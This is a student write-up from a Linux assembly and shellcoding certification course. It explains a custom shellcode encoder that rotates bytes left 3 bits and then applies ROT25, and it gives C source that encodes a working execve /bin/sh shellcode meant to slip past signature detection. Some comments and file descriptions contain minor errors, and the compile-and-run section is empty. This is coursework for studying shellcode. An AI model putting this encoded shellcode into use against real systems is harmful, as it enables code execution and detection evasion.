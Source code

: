 ## Assignment #4: Create Encoding Scheme
---
---
### Introduction
---
This assignment consist on creating a Custom Encoder like the Insertion Encoder, and create a PoC using the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm) as the shellcode. 
Once this is done, a decoder stub has to be implemented in ASM to decode our shellcode and run it. The encoder will be done using C language.

### Encoder Schema
---
The Encoder requires a working shellcode as input. This string containing the shellcode, will be encoded with the schema and the results will be printed in hexadecimal. 

The encoder will do the following: 
- Rotate each byte of the shellcode 3 bits to left 
- Do a ROT25 on each byte of the shellcode 

#### Left Shift Byte Bits
First to do in the Encoder is to shift 3 bites to left on each byte of the original shellcode:

- Get a byte from the shellcode string
- Shift the bits three positions to left
- If the most significant bit is "1" it should rotate to the less significant bit

This is implemented in the following way:
```pseudocode
shifted_byte = ( original_byte << SHIFTS ) | ( original_byte >> ( BITS_TO_ROTATE - SHIFTS ))
```
Where:
- SHIFTS is how many shifts to do. It our case, is "3" shifts to left
- BITS_TO_ROTATE indicates how many bits are implied in the rotation. As we are working with bytes, it's value is "8" bits.

#### ROT25
Once the original shellcode has been Left Shifted, it's time to ROT25 it. As we work with bytes it's values can go from 0x00 to 0xFF
- Each byte of the shellcode will get a new value that’s the actual value + 25
- In the case of the last 25 possible values for a byte, we will start from 0x00. 

This table will show the idea:
```markdown
  --------------------------------------------------------------------------------
  |  Original Value    0x00   0x01   ...   0x80   ...   0xe7   0xe8   ...   0xff |
  |  Decimal Value        0      1   ...    128   ...    231    232   ...    255 |
  |  ROT25 Value       0x19   0x1a   ...   0x99   ...   0x00   0x01   ...   0x18 |
  --------------------------------------------------------------------------------
```
This will be implemented for each byte in this way:
```pseudocode
rot_max_value = 256 – 25		                         ; 231 (0xe7) 
if (original_value < rot_max_value) then 
   rot25_value = original_value + 25 
else				                                         ; Here the value will be 231 or greater 
   rot25_value = (original_value + rot) – 256        ; It's rotated from the start
end if 
```
### Encoder Implementation
---
The encode will be implemented in C language. 

- A string is defined to store the original shellcode. This is the string to encode. From the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm): 
```c
unsigned char code[]= \ 
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50
 \x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"; 
```
- For each byte of the original shellcode, it's bites are shifted "3" positions to left:
  - A bucle iterates each byte of the string, and for each byte
  - Each byte is shifted to right as been explained in the previous sections
  - The shifted byte value is printed on stdout
```c
        // 3 bits left Rotation 
        for (int i = 0; i< strlen(code); i++) { 
            code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS)); 
            printf("0x%02x,", code[i]); 
        }	 
```
- Once shellcode been shifted, a ROT25 is applied:
  - If the byte value is lower than "231", simply adds 25 to the byte value
  - If the byte value is greater or equal to "231", adds 25 to it's value for substracting 256 of it
  - Prints each byte one ROT'ed on screen
```c
        // ROTX the ShellCode 
        unsigned char rot = 25; 
        unsigned char max_rot = 256 - rot; 

        for (int i = 0; i < strlen(code); i++) { 
                if (code[i] < max_rot) {                     ; value < "231"
                        code[i] = code[i] + rot;             ; Add 25
                        printf("0x%02x,",code[i]); 
                } else {                                     ; value >= "31"
                        code[i] = (code[i] + rot) - 256;     ; value = original_value + rot - 256
                        printf("0x%02x,",code[i]); 
                } 
        } 
```

After this all, the Encoded shellcode will be printed in screen. This is the shellcode that needs to go into the ASM Decoder Stub to be decoded and executed. The following info for later use is printed on screen:
- Legth of the shellcode
- The original shellcode string in hex 
- The string in hex of the left rotated shellcode 
- The string in hex of ROT25 of the already rotated shellcode 

The Encoder code is on [GitHub Repo](https://github.com/galminyana/SLAE64/blob/main/Assignment04/) in the [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c):

```c
#include <stdio.h>
#include <string.h>

#define BITS_TO_ROTATE	8
#define SHIFTS 		      3

unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

void main (void)
{
	printf("\nShellCode Length: %d\n", strlen(code)); 
	printf("\nOriginal ShellCode:\n");

	for (int i = 0; i < strlen(code); i++) {
		printf("0x%02x,", code[i]);
	}

	printf("\n\nShifted Left 3 bits ShellCode:\n");

	// 3 bits left Rotation
	for (int i = 0; i< strlen(code); i++) {
		code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS));
		printf("0x%02x,", code[i]);
	}

	printf("\n\nROT25 ShellCode:\n");

	// ROTX the ShellCode
	unsigned char rot = 25;
	unsigned char max_rot = 256 - rot;

	for (int i = 0; i < strlen(code); i++) {
		if (code[i] < max_rot) {
			code[i] = code[i] + rot;
			printf("0x%02x,",code[i]);
		} else {
			code[i] = (code[i] + rot) - 256;
			printf("0x%02x,",code[i]);
		}
	}
	printf("\n");
}	
```
### Encoder: Compile and Run















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment04) for this assignment contains the following files:

- [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) : This C file is the implementation of the Encoder Scheme. Prints out a encoded shellcode.
- [Decode-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Decode-Execve-Stack.nasm) : This is the NULL free code for the Egg Hunter.
- [Execve-Stack.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment4/ReverseShell-ExecveStack_V2.nasm) : This is the code for the shellcode to use in the PoC.
- [shellcode.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/shellcode.c) : The C template Decode-Execve-Stack.nasm Shellcode, ready to compile and execute


### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
